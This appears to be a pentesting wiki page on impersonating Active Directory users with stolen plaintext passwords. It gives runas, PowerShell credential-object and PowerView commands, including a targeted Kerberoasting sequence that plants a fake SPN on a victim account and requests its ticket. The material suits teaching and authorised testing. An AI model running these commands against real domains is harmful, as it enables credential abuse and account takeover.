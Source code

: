 When credentials are found (through dumping or cracking for instance), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

- LM or NT password hash: `pass-the-hash`
- RC4 Kerberos key (i.e. NT hash): `overpass-the-hash`
- non-RC4 Kerberos key (i.e. DES or AES): `pass-the-key` (alias for overpass-the-hash)
- Kerberos ticket: `pass-the-ticket`
- plaintext password: the techniques listed below
=== "Runas"
    RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.
    ```bash
    runas /netonly /user:$DOMAIN\$USER "powershell.exe"
    ```
    Since the password cannot be supplied as an argument, the session must be interactive.
=== "Powershell"
    In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the -Credential argument in the next command.
    ```bash
    # Credential object creation (prompted)
    $credential = Get-Credential

    # Credential object creation (not prompted)
    $password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
    $credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

    # Usage
    Start-Process Notepad.exe -Credential $credential
    ```
=== "PowerView"
    Most of PowerView's functions have the -Credential, -Domain and -Server parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

    Here is an example for targeted Kerberoasting.

    ```bash
    # Credential object creation (not prompted)
    $password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
    $credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

    # Usage
    Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
    $User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
    $User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
    ```

[SharpLdapWhoami](https://github.com/bugch3ck/SharpLdapWhoami) can then be used to make sure the user is correctly impersonated. A standard whoami command will only return the local user rights, not the users impersonated during remote operations (like LDAP queries to the DC).
```bash
.\SharpLdapWhoami.exe
.\SharpLdapWhoami.exe /method:kerberos /all
```